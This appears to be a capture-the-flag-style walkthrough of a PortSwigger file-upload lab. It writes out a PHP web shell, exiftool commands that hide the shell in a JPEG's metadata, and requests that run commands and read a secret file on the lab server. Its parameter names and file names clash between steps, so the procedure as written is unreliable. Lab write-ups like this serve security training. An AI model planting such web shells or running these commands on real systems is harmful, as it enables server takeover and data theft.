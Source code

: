 ## Welcome, my friend. Today we will start the [6. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload) in ```portswigger```

# Explain this Scenario:

## Inadequate verification of file contents

#### Instead of implicitly trusting the type of content specified in the request, more secure servers attempt to verify that the contents of the file actually match what is expected.

### 1. Check the file's intrinsic properties

#### In the case of image upload functionality, the server may attempt to verify some intrinsic properties of the image, such as its dimensions. If you try to load a PHP script, for example, it will not contain dimensions, so the server can conclude that it cannot be an image and refuse to load accordingly.

### Realistic scenario:

#### Imagine you are trying to upload a PHP file as an image. The server checks the dimensions, and because the PHP file does not contain dimensions, the server refuses to upload.



#### 2. Use a file signature


#### Certain types of files always contain a specific sequence of bytes in the file header or footer. These sequences can be used as a "fingerprint" or "signature" to determine whether the contents match the expected type. For example, ```JPEG``` files always start with bytes ```FF D8 FF```.

#### Realistic scenario:

#### If you upload a file that claims to be a JPEG image, the server can verify that the file begins with FF D8 FF. If this signature is not found, the file is rejected.


### 3. Verification using special tools

#### Although this method is more robust in verifying the file type, it is not without drawbacks. Using special tools, such as ExifTool, a multi-purpose JPEG file can easily be created that contains malicious code within its metadata.

### Realistic scenario:

#### Using ```ExifTool```, you can embed malicious PHP code inside metadata in a JPEG file. The file is uploaded as an image, but malicious code can be extracted and executed.

-------

### Practical example:

#### If the server verifies that the uploaded file is a JPEG image based on the signature, you can create a file that has the correct JPEG header (eg FF D8 FF) but also has a PHP script embedded in the metadata.

#### Using ExifTool:

#### Create a malicious PHP script, such as:

```
<?php system($_GET['cmd']); ?>
```

### Use ExifTool to add this script as metadata to a JPEG image:

```
exiftool -Comment='<?php system($_GET["cmd"]); ?>' name_your_image.jpg -o exploit.php
```

### Upload the exploit.jpg file to the server.

##### This way, the file can look like a normal image, but malicious code can be extracted and executed when targeting metadata.



------------

# Let's play this lab:


![image](https://github.com/user-attachments/assets/f4106dde-45c7-4443-8fe0-76c210707eba)


#### Let's log in to your own account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/1b7229a1-3813-48f9-b6f0-0dcc0d603e78)


#### Let's create a php malicious payload in file ```tor.php```:

### within tor.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)

### Now, Let's upload this malicious payload to server.

![image](https://github.com/user-attachments/assets/0fc0327a-1df2-44d8-b43a-fb9179e46b3d)


### Ok ,We will using ```exiftool``` to inject our payload in image.

```
exiftool -Comment='<?php system($_GET["cmd"]); ?>' hack.jpg -o exploit.php
```


![image](https://github.com/user-attachments/assets/6d6b3a8e-81e6-40b3-a7d9-108a6a48a2c3)

Let's upload this exploit.php

![image](https://github.com/user-attachments/assets/99381916-49e0-4a84-8af6-77962fd2f26a)



#### WOW! The file has been uploaded successfully.

### From Task 1, we explore that our file is within this path ```/files/avatars/file_name?parameter=command``` like this:

```
/files/avatars/exploit.php?tor=id
```

![image](https://github.com/user-attachments/assets/1aa5f714-fc44-450a-b868-9619f0ab429a)



#### Ok this task requrie reach to /home/carlos/secret file.

```
/files/avatars/exploit?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/87be8a10-5b08-42bd-a3bc-f9a4ec973860)


### Let's Submit this secret using the button provided in the lab banner. 

![Screenshot from 2024-07-23 02-36-24](https://github.com/user-attachments/assets/f189d01e-80ab-4008-85bd-f4fe9cd2addd)

## Then ...

![image](https://github.com/user-attachments/assets/473a226f-00ca-4d4f-bd00-5d35f54ae18f)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/b04d9015-da7f-435b-9a44-c18b80369709" >
</p>






















